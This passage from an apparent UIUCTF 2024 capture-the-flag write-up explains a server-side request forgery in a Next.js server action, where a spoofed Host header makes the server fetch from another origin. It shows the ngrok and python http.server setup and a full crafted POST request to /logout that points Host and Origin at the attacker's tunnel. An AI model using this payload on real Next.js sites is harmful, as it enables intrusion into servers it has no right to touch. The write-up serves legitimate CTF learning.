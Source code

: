 ```typescript
          res,
          host,
          forwardedWorker,
          ctx.renderOpts.basePath,
          staticGenerationStore
        ),
      }
    }
  }
  [...]
```

Hmm... We can control it by using the **`Host` header**.

> Note: It seems like it also needs the `Origin` header to check for CSRF attacks.

Nice! With that said, we can let the server-side to fetch any resources from any origins with the `Host` header!

To test it, we need to:

- Port forwarding via ngrok:

```shell
┌[siunam♥Mercury]-(~/ctf/UIUCTF-2024/Web/Log-Action)-[2024.07.01|14:38:59(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://1593-{REDACTED}.ngrok-free.app -> http://localhost:80            
[...]
```

- Setup a simple HTTP server:

```shell
┌[siunam♥Mercury]-(~/ctf/UIUCTF-2024/Web/Log-Action)-[2024.07.01|14:40:17(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**Then, send the following POST request to `/logout`:**
```http
POST /logout HTTP/1.1
Host: 1593-{REDACTED}.ngrok-free.app
Origin: https://1593-{REDACTED}.ngrok-free.app/
Accept: text/x-component
Next-Action: c3a144622dd5b5046f1ccb6007fea3f3710057de
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22logout%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Content-Type: multipart/form-data; boundary=---------------------------30523002528298602961754182131
Content-Length: 333
Origin: http://log-action.challenge.uiuc.tf
Connection: keep-alive
Cookie: authjs.csrf-token=3a88d122c42873637d81db77edf8571e94e78697010629b27d9d1632876b75ad%7C250eafa2f8899729450d0228f76b528c95b155ca24e929d61e934ce559b299b5

-----------------------------30523002528298602961754182131
Content-Disposition: form-data; name="1_$ACTION_ID_c3a144622dd5b5046f1ccb6007fea3f3710057de"


-----------------------------30523002528298602961754182131
Content-Disposition: form-data; name="0"

["$K1"]
-----------------------------30523002528298602961754182131--
```
